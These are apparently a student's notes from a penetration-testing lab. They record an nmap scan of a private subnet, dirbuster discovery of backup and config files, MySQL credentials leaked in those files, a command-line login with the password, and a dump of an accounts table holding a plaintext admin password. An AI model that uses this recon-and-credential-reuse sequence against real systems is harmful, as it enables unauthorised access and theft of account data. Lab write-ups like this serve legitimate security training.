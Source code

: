 # Dirbuster Lab Notes

My IP: `10.104.11.50`

1. Scan network
	- `nmap 10.104.11.0/24`

### Pingable IPs
- `10.104.11.96`
	- Ports open: 22, 80
	- **Web Server**
- `10.104.11.198`
	- Ports open: 22, 3306
	- MySQL?
---
- File extensions to use with dirbuster:
	- `.old, .bak, .xxx`

- Files found:
	- http://10.104.11.96/include/config.old
		- Contains SQL creds:
			- `awd:UcuicjsQgG0FILdjdL8D`
	- http://10.104.11.96/staff/readme.txt
	- http://10.104.11.96/signup.php
		- ```
			@Dev team: the DB credentials are
			Username:   awdmgmt
			Password:   UChxKQk96dVtM07
			Host:       10.104.11.198
			DB:         awdmgmt_accounts
			DMBS:       MySQL
			```
Connect to given DB: `mysql -h 10.104.11.198 -u awdmgmt -pUChxKQk96dVtM07`

We're in!
```bash
MySQL [(none)]> use awdmgmt_accounts
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [awdmgmt_accounts]> show tables;
+----------------------------+
| Tables_in_awdmgmt_accounts |
+----------------------------+
| accounts                   |
+----------------------------+
1 row in set (0.043 sec)

MySQL [awdmgmt_accounts]> select * from accounts;
+----+--------------------+----------+-------------+
| id | email              | password | displayname |
+----+--------------------+----------+-------------+
|  1 | admin@awdmgmt.labs | ENS7VvW8 | Admin       |
+----+--------------------+----------+-------------+
1 row in set (0.047 sec)
```
